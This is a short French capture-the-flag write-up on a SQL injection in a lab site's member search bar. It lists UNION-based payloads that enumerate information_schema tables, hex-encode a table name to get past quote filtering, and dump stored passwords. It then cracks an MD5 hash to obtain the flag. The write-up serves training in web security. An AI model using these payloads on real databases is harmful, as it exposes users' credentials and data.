Security breach name 	: Injection Sql

Principle 				: Utilisé des inputs mal protégés pour accéder à des données sensibles de la base de données, en modifiant les requêtes faites sur celle-ci.

Solve 					: Ne pas insérer directement les valeurs entré par un utilisateur dans une requête Sql, il existe plusieurs méthodes : binder les valeurs, stringifier les valeurs..

In case 				: Dans la barres de recherche membre, la valeurs entré est diretement inséré dans la requêtes ce qui nous permet dans une certaines mesures de modifier sont sens. 
							(La requêtes n'accepte que deux arguments pour le select)

							1. On affiche l'ensemble des tables. : [1 union select table_schema,table_name from information_schema.tables]

							2. L'input remplace les quotes ducoup on écrit la nom de la table en hexa, : [1 union select null,group_concat(column_name) from information_schema.columns where table_name = 0x7573657273] (user)

							3. On récupère les champs qui nous intéresse, : [1 union select title,comment from list_images]
								{
									ID: 1 union select Commentaire,countersign from users
									First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
									Surname : 5ff9d0165b4f92b14994e5c685cdce28
								}
								{
									- md5 hash : 5ff9d0165b4f92b14994e5c685cdce28 =  FortyTwo
									- lower all char  = fortytwo
									- hash Sh256 = 10A16D834F9B1E4068B25C4C46FE0284E99E44DCEAF08098FC83925BA6310FF5
								}
